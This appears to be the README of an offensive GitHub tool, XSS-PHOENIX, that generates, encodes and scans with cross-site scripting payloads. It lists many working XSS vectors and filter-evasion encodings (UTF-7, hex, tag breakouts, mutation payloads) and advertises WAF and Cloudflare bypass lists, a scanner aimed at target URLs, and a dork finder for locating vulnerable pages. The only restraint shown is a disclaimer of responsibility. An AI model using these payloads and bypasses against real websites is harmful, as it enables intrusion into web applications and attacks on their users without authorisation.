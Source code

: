 # XSS-PHOENIX

# youtube : FR13NDS DZ
# facebook : Phoenix Pw
# github : PHOENIX7713
# twitter : ShadowDz5
# instagram : zodiac2372
# Note! : We don't Accept any responsibility for any illegal usage.

cd Installation cd

git clone https://github.com/PHOENIX7713/XSS-PHOENIX.git

cd XSS-PHOENIX

pip3 install -r requirements.txt

python3 payloader.py

card_file_box Features card_file_box

*Basic Payload

Sets default parameter to :<script>alert(1)</script>
*Div Payload

Sets default parameter to :<div onpointerover='alert(1)'>MOVE HERE</div
*Img Payload

Sets default parameter to :<img src=x onerror=alert('1');>
*Body Payload

Sets default parameter to :<body ontouchstart=alert(1)>
*Svg Payload

Sets default parameter to :<svg onload=alert('1')>
*Enter Your Payload

Encodes payload writed by user
*Payload Generator Parameter

Encodes payload on selected tag

* |   1.  UPPER CASE---->  <SCRIPT>ALERT(1)</SCRIPT>              
* |   2.  UPPER AND LOWER CASE----> <ScRiPt>aleRt(1)</ScRiPt>   
* |   3.  URL ENCODE ----->   %3Cscript%3Ealert%281%29%3C%2Fscript%3E           
* |   4.  HTML ENTITY ENCODE----->  &lt;script&gt;alert(1)&lt;/script&gt; 
* |   5.  SPLIT PAYLOAD ----->  <scri</script>pt>>alert(1)</scri</script>pt>>       
* |   6.  HEX ENCODE ----->  3c7363726970743e616c6572742831293c2f7363726970743e       
* |   7.  UTF-16 ENCODE -----> Encode payload to utf-16 format.   
* |   8.  UTF-32 ENCODE----->  Encode payload to utf-32 format.          
* |   9.  DELETE TAG -----> ";alert('XSS');//            
* |  10.  UNICODE ENCODE----->    %uff1cscript%uff1ealert(1)%uff1c/script%uff1e         
* |  11.  US-ASCII ENCODE ----->  ¼script¾alert(1)¼/script¾      
* |  12.  BASE64 ENCODE ----->   PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==          
* |  13.  UTF-7 ENCODE ----->   +ADw-script+AD4-alert(1)+ADw-/script+AD4-           
* |  14.  PARENTHESIS BYPASS ----->  <script>alert`1`</script>   
* |  15.  UTF-8 ENCODE ----->  %C0%BCscript%C0%BEalert%CA%B91)%C0%BC/script%C0%BE          
* |  16.  TAG BLOCK BREAKOUT-----> "><script>alert(1)</script>
* |  17.  SCRIPT BREAKOUT----->  </script><script>alert(1)</script>
* |  18.  FILE UPLOAD PAYLOAD-----> "><script>alert(1)</script>.gif
* |  19.  INSIDE COMMENTS BYPASS-----> <!--><script>alert(1)</script>-->
* |  20.  MUTATION PAYLOAD-----> <noscript><p title="</noscript><script>alert(1)</script>">
* |  21.  MALFORMED IMG-----> <IMG """><script>alert(1)</script>">
* |  22.  SPACE BYPASS-----> <img^Lsrc=x^Lonerror=alert('1');>
* |  23.  DOWNLEVEL-HIDDEN BLOCK-----> <!--[if gte IE 4]><script>alert(1)</script><![endif]-->
* |  24.  WAF BYPASS PAYLOADS-----> Show Waf Bypass Payload List
* |  25.  CLOUDFLARE BYPASS PAYLOADS-----> Show Cloudflare Bypass Payload List
* |  26.  POLYGLOT PAYLOADS-----> Show Polyglot Bypass Payload List
* |  27.  ALERT PAYLOADS-----> Show Alert Payload List
* |  28.  ALL CREATE PAYLOAD-----> Show Create All Payloads
* |  29.  GO BACK MAIN MENU
* |  30.  EXIT

*Xss Scanner

Initially you'll need to enter url of target Please enter the url like this example==>e.g target -----> http://target.com/index.php?name= Selected for scanning payload list

    BASIC PAYLOAD LIST ==> Payload list consisting of script tag
    DIV PAYLOAD LIST ==> Payload list consisting of div tag
    IMG PAYLOAD LIST ==> Payload list consisting of img tag
    BODY PAYLOAD LIST ==> Payload list consisting of body tag
    SVG PAYLOAD LIST ==> Payload list consisting of svg tag
    MIXED PAYLOAD LIST ==> Payload list consisting of all tag
    ENTER FILE PATH ==> Payload list determined by the user ,Please enter the url like this example..! (e.g. path -----> /usr/share/wordlists/wfuzz/Injections/XSS.txt)

Results will be added in "vulnpayload.txt" after scanning.
*Xss Dork Finder

First enter the dork for searching: e.g---->inurl:"search.php?q=" Results will be saved in "dork.txt" after scanning.
Known Issues
Fixed:

    Unicode errors

    Module errors

Important:

If you want to use tool for python3 installed on Windows download below link:
https://github.com/PHOENIX7713/XSS-PHOENIX.git
Bugs and enhancements

For bug reports or enhancements, please open an issue here.
Support and Donations

Contact us with email oanonymous85@gmail.com.com.tr

Copyright 2020
